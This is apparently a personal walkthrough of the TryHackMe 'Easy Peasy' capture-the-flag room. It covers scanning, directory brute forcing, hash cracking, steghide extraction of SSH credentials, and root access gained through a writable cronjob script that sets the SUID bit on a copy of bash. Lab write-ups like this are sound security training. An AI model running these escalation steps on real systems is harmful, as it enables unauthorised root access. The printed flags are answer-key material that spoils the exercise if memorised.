





# Easy Peasy (THM)

- https://tryhackme.com/room/easypeasyctf
- March 7, 2023
- easy
- not easy

---

- Practice using tools such as Nmap and GoBuster to locate a hidden directory to get initial access to a vulnerable machine. Then escalate your privileges through a vulnerable cronjob.
- it is not an easy room for me
- useful links
  - https://md5hashing.net/hash
  - https://gchq.github.io/CyberChef/

## Enumeration

### Nmap

- Only one port open with default scan

1. 80/http - nginx 1.16.1
   - default page for nginx

- rustscan with all ports

```
PORT      STATE SERVICE REASON
80/tcp    open  http    syn-ack
6498/tcp  open  unknown syn-ack
65524/tcp open  unknown syn-ack
```

2. 6498/ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3. 65524/http - Apache httpd 2.4.43 ((Ubuntu))
   - Apache default page

### HTTP

- directory brute forcing at port 80 with ffuf

```
hidden
index.html
robots.txt
```

- brute force into hidden -> `whatever`



- `ZmxhZ3tmMXJzN19mbDRnfQ==` -> base64 encrypt -> `flag{f1rs7_fl4g}`

- directory brute forcing at port 65524 with ffuf

```
index.html
robots.txt
```

- robots.txt



- try to brute force directory using User-Agent value, but not success
- crack this value `a18672860d0510e5ab6699730763b250`
- try to crack with john or hashcat, but not success
- use this website - https://md5hashing.net/hash
- the algorithm is md5, can check with hash identifier
- it will give the second flag



- at http://$IP:65524/



- using cypher chef try all possible algorithm and found base62 decode, the secret directory
- at the secret directory, get another hash



- don't know the hash, in hint, it gives GOST,
  save it into crackme2 file

```sh
$ john --wordlist=easypeasy.txt --format=gost crackme2
# found correct word
```

- what is this word for?
- it is not flag to submit.
- nothing do to here now
- let's download the png file `binarycodepixabay.jpg`
- something may hidden in that picture

```sh
$ steghide extract -sf binarycodepixabay.jpg
Enter passphrase:
# enter above crack word as passphrase
wrote extracted data to "secrettext.txt".
```

- in secrettext.txt

```
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001

```

- it may be username and password for ssh
- password is easy to convert from binary to ascii

## User Access

- enter ssh with credentials for boring user
- remember to specify port (-p)
- no sudo access
- suid bits -> not interesting
- cronjob

```sh
boring@kral4-PC:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```

```sh
boring@kral4-PC:/var/www$ cat .mysecretcronjob.sh
#!/bin/bash
# i will run as root
```

```sh
-rwxr-xr-x  1 boring boring   33 Jun 14  2020 .mysecretcronjob.sh
```

- has read write access to boring
- it will run by root once per minute and add to create suid bit for bash

## Root Access

```sh
boring@kral4-PC:/var/www$ cat .mysecretcronjob.sh
#!/bin/bash
# i will run as root
cp /bin/bash /tmp/bash;
chmod +s /tmp/bash;
```

- wait for run by root
- then

```sh
boring@kral4-PC:/var/www$ /tmp/bash -p
bash-4.4# whoami
root
bash-4.4# cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
bash-4.4# cat /home/boring/user.txt
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}

```

- for user flag, it is said to be rotated, try rot13, 47, etc

---
